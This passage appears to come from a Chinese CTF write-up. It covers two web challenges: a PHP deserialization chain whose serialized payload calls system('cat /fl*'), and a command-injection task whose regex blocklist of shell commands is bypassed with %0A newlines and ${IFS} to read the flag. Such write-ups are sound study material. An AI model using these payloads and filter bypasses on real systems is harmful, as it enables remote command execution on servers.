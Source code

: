 ```php
}
$a = new Start();
$a->errMsg = new Crypto();
$a->errMsg->obj = new Reverse();
$a->errMsg->obj->func = new Pwn();
$a->errMsg->obj->func->obj = new Web();
$b = serialize($a);
echo $b;
```

payload：

```
O:5:"Start":1:{s:6:"errMsg";O:6:"Crypto":1:{s:3:"obj";O:7:"Reverse":1:{s:4:"func";O:3:"Pwn":1:{s:3:"obj";O:3:"Web":2:{s:4:"func";s:6:"system";s:3:"var";s:8:"cat /fl*";}}}}}
```

传进去回显一个报错

![image-20231101202055155](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231101202055155.png)

这时候我们需要快速触发__destruct

姿势一：

修改序列化属性个数，1->2，类似__wakeup的绕过

姿势二：

去掉生成的序列化字符串最后的一个大括号

### So Baby RCE

源代码

```shell
<?php
error_reporting(0);
if(isset($_GET["cmd"])){
    if(preg_match('/et|echo|cat|tac|base|sh|more|less|tail|vi|head|nl|env|fl|\||;|\^|\'|\]|"|<|>|`|\/| |\\\\|\*/i',$_GET["cmd"])){
       echo "Don't Hack Me";
    }else{
        system($_GET["cmd"]);
    }
}else{
    show_source(__FILE__);
}
```

过滤了很多函数和符号，可以利用%0A多命令切换目录，不断切换到根目录，进行读取flag

payload

可以用rev，uniq，sort

```
cmd=%0Acd${IFS}..%0Acd${IFS}..%0Acd${IFS}..%0Als
cmd=%0Acd${IFS}..%0Acd${IFS}..%0Acd${IFS}..%0Auniq${IFS}ffff?lllaaaaggggg
```
